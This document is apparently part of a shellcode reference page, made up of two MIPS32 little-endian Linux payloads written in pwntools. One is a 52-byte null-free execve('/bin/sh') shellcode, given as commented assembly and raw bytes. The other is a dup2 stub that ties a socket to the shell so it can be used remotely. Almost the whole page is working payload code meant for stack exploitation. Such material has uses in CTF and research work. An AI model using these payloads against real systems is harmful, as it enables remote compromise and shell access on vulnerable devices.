 ### `/bin/sh` - 52 bytes
* Command - `execve("/bin/sh", {"/bin/sh", NULL}, NULL)`
* Length - 52
* Notes
    * No null bytes
    * No whitespace
    * Suitable for most stack shellcode (`$sp-0x8` to `$sp` are overwritten, so as long as those addresses don't contain future shellcode bytes, it's okay)

```python
from pwn import *
context.update(arch='mips', os='linux', bits=32, endian='little')
shellcode = asm('''
    bltzal  $zero, getpc        # \xff\xff\x10\x04
getpc:
    addiu   $v0, $zero, 0xfab   # \xab\x0f\x02\x24
    slti    $a2, $zero, -1      # \xff\xff\x06\x28
    addiu   $a0, $ra, 0x101     # \x01\x01\xe4\x27
    addiu   $t4, $a0, -0xd5     # \x2b\xff\x8c\x24
    sb      $a2, -1($t4)        # \xff\xff\x86\xa1
    addiu   $a0, $a0, -0xdd     # \x23\xff\x84\x24
    sw      $a0, -8($sp)        # \xf8\xff\xa4\xaf
    sw      $a2, -4($sp)        # \xfc\xff\xa6\xaf
    addiu   $a1, $sp, -8        # \xf8\xff\xa5\x27
    syscall 0x040405            # \x4c\x01\x01\x01
    .word   0x6e69622f
    .word   0x6168732f
''')
shellcode = b'\xff\xff'+shellcode[2:]

# Shellcode - b"\xff\xff\x10\x04\xab\x0f\x02$\xff\xff\x06(\x01\x01\xe4'+\xff\x8c$\xff\xff\x86\xa1#\xff\x84$\xf8\xff\xa4\xaf\xfc\xff\xa6\xaf\xf8\xff\xa5'L\x01\x01\x01/bin/sha"
```

### `dup2` - 32 bytes
* Command - `dup2()`
* Length - 32
* Notes
    * This shellcode is meant to be **prepended** to one of the above `/bin/sh` shellcode payloads, and allows you to communicate with the shell over a socket.
    * The file descriptor for the socket must be known beforehand, or it can be brute-forced
    * **DOES** contain null bytes
    * No whitespace

```python
from pwn import *
context.update(arch='mips', os='linux', bits=32, endian='little')
fd = 7
shellcode = asm(f'''
li $v0, 4063        # \xdf\x0f\x02\x24
li $a0, {fd}        # \x07\x00\x04\x24
li $a1, 0           # \x00\x00\x05\x24
syscall 0x040405    # \x4c\x01\x01\x01
li $a1, 1           # \x01\x00\x05\x24
syscall 0x040405    # \x4c\x01\x01\x01
li $a1, 2           # \x02\x00\x05\x24
syscall 0x040405    # \x4c\x01\x01\x01
''')

# Shellcode - b'\xdf\x0f\x02$\x07\x00\x04$\x00\x00\x05$L\x01\x01\x01\x01\x00\x05$L\x01\x01\x01\x02\x00\x05$L\x01\x01\x01'
```

